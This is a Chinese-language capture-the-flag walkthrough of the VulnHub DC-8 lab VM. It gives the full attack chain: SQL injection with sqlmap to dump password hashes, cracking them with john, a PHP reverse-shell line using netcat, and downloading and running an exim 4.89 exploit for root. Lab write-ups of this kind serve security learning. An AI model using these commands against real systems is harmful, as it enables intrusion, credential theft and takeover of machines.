 # DC 8

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-8,367/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.158
```

![](./img/vulnhub-dc8-1.png)
## 漏洞利用

在左侧链接发现注入点

![](./img/vulnhub-dc8-2.png)

```
sqlmap -u http://10.30.0.158/?nid=1 --dbs --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db --tables --batch
sqlmap -u http://10.30.0.158/?nid=1 -D d7db -T users --dump --batch
```

![](./img/vulnhub-dc8-3.png)

得到 admin 和 john 用户的 hash 密码, 根据提示使用john来爆破

```bash
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
john pass.txt  # 默认用/usr/share/john/password.lst字典
```

![](./img/vulnhub-dc8-4.png)

爆出johb的密码，admin无法爆破

```
username : john
password : turtle
```

后台登陆地址：http://xxxxxx/user/login/

信息收集，在contact us发现能写入php的地方，尝试写入phpinfo

![](./img/vulnhub-dc8-5.png)

命令成功执行，尝试写入反弹shell一句话

```bash
<?php system("nc -e /bin/sh 10.30.0.81 4444")?>

nc -lvnp 4444 # kali
```

反弹成功

```bash
python -c "import pty;pty.spawn('/bin/bash')"
find / -perm -u=s 2>/dev/null
```


![](./img/vulnhub-dc8-6.png)

查看exim4
```bash
/usr/sbin/exim4 --version # 4.89
searchsploit exim 4.89
searchsploit -m 46996 #注意在kali上把文件改为unix格式

vi 46996.sh
:!set ff=unix

python -m SimpleHTTPServer  8080 # kali
cd /tmp # 靶机在tmp目录下进行下载接受，防止其他位子没有权限
wget http://10.30.0.81:8080/46996.sh # 靶机
chmod +x 46996.sh
./46996.sh -m netcat
whoami
```

![](./img/vulnhub-dc8-7.png)
![](./img/vulnhub-dc8-8.png)
## 参考链接
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/amgflh
- http://www.kxsy.work/2021/08/12/shen-tou-dc-8/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC8-WalkThrough.md